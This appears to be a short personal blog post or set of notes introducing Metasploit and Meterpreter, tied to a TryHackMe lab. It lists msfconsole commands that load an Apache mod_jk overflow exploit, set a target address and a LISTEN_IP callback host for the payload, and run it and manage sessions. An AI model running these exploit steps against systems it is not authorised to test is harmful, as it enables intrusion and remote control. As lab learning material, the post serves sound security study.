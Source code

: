 ```yaml
---
title:  "Metasploit"
date:   2022-12-13
excerpt: ""
categories: informationsecurity
tags: 
- metasploit
- red team
toc: true
toc_label: "My Table of Contents"
toc_icon: "cog"
classes: wide
---
```

## What is Metasploit/Meterpreter?

Metasploit is a powerful penetration testing tool for gaining initial access to systems, performing post-exploitation, and pivoting to other applications and systems. Metasploit is free, open-source software owned by the US-based cybersecurity firm Rapid7.[^1]

Meterpreter is an advanced payload that provides interactive access to a compromised system. Meterpreter supports running commands on a remote target, including uploading/downloading files and pivoting.

## Use Metasploit

```bash
# start console
msfconsole
    
# search for a model
search apache

# Load a module with the ‘use’ command
use exploit/windows/http/apache_modjk_overflow

# view the information about the module, including the module options, description, CVE details, etc
msf6 exploit(exploit/windows/http/apache_modjk_overflow) > info        

# View the available options to set
msf6 exploit(exploit/windows/http/apache_modjk_overflow) > show options

# Set the target host and logging
set rhost 10.10.10.20
set verbose true

# Set the payload listening address; this is the IP address of the host running Metasploit
set lhost LISTEN_IP

# show options again
show options

# Run or check the module
check
run
```

## Usefull Commands

```bash
# Inside a module
## check if target is vulnerable
check rhost=10.10.228.247 HttpClientTimeout=20

## show sessions
session

# Inside a session
## session to background
background
```

## References

[^1]: [tryhackme: Advent of Cyber Day 9]([https://tryhackme.com/room/cyberthreatintel](https://tryhackme.com/room/adventofcyber4)